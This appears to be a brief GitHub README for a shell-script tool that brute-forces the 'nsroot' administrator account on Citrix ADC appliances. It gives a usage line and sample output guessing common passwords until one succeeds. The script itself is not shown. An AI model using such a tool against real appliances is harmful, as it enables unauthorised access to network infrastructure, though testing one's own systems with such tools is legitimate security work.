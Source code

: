 # Citrix_ADC_Brute_Force

Tries to brute force nsroot account.

```python
Usage:
./brute_force.sh <target ip>
[+] Trying: 123456
[+] Trying: 12345678
[+] Trying: 1234
[!] Password found: password
```
